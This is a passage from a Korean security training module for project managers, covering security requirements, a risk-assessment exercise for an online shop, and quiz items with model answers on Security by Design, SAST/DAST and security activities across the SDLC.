| SEC-002 | 비밀번호 최소 12자, 복잡도 검증 | 필수 |
| SEC-003 | PM만 예산 정보 조회 가능 (RBAC) | 필수 |
| SEC-004 | 모든 변경 이력 로깅 | 필수 |
| SEC-005 | 30분 무활동 시 자동 로그아웃 | 권장 |

</details>

#### 실습 2: 보안 리스크 평가

**과제:** 온라인 쇼핑몰의 보안 리스크 3개를 평가하세요.

<details>
<summary>해설</summary>

| 위협 | 가능성 | 영향도 | 리스크 | 대응 |
|------|-------|-------|-------|------|
| SQL Injection | 3 (높음) | 3 (높음) | 9 | Parameterized Query, WAF |
| 고객 DB 유출 | 2 (보통) | 3 (높음) | 6 | DB 암호화, 접근 통제 |
| DDoS 공격 | 2 (보통) | 2 (보통) | 4 | CDN, Auto Scaling |

**우선순위:**
1. SQL Injection (즉시)
2. DB 암호화 (1개월)
3. DDoS 방어 (2개월)

</details>

### 퀴즈 (15분)

**Q1. Security by Design의 의미는?**
1. 보안 전문가만 설계
2. 설계 단계부터 보안 고려
3. 보안 도구 사용
4. 배포 후 보안 점검

<details>
<summary>정답</summary>
정답: 2번 (설계 초기부터 보안을 내재화)
</details>

**Q2. SAST와 DAST의 차이는?**
<details>
<summary>정답</summary>
- SAST: 소스 코드 정적 분석 (개발 중, 조기 발견)
- DAST: 실행 중 앱 동적 분석 (배포 후, 실제 환경)
</details>

**Q3. PM이 보안을 관리해야 하는 이유와 SDLC 각 단계 보안 활동을 설명하세요.**

<details>
<summary>모범 답안</summary>

**PM이 보안 관리해야 하는 이유:**
1. 법적 책임 (개인정보보호법, GDPR 위반 시 과징금)
2. 비즈니스 영향 (보안 사고 시 브랜드 타격, 고객 이탈)
3. 조기 대응 (개발 후 발견 시 재작업 비용 10배)
4. 프로젝트 성공 기준 (안전한 운영 가능해야 완성)

**SDLC 보안 활동:**

**1. 요구사항:**
- 보안 요구사항 정의 (인증, 암호화)
- 컴플라이언스 확인
- 위협 모델링 (STRIDE)

**2. 설계:**
- 보안 아키텍처 (네트워크 분리, DMZ)
- 데이터 흐름도
- 암호화 구간 정의

**3. 개발:**
- 시큐어 코딩 가이드라인
- 코드 리뷰 (보안 관점)
- SAST (SonarQube)

**4. 테스트:**
- DAST (OWASP ZAP)
- 모의해킹
- OWASP Top 10 점검

**5. 배포:**
- 보안 설정 (방화벽, 기본 비밀번호 변경)
- HTTPS 인증서
- 모니터링 (SIEM)

**6. 운영:**
- 보안 패치 (정기/긴급)
- 로그 모니터링
- 분기별 취약점 점검

**PM의 핵심 역할:**
- 보안 예산 확보 (5-10%)
- 보안 일정 반영
- 보안 전문가 참여
- Security by Design 실천

</details>

---

**Day 14 완료!**

**핵심 내용:**
- 1교시: CIA 원칙, 인증·인가
- 2교시: 보안 위협 (DDoS, SQL Injection, 피싱)
- 3교시: 암호화 (대칭키·비대칭키, 해시, HTTPS)
- 4교시: 보안 관리 (ISMS, RBAC, 감사)
- 5교시: 개인정보보호 (GDPR, 사고 대응, RPO/RTO)
- 6교시: PM 관점 (Security by Design, SDLC 보안)

PM은 보안을 기술팀만의 책임이 아닌 프로젝트 전체의 필수 요소로 관리해야 합니다!
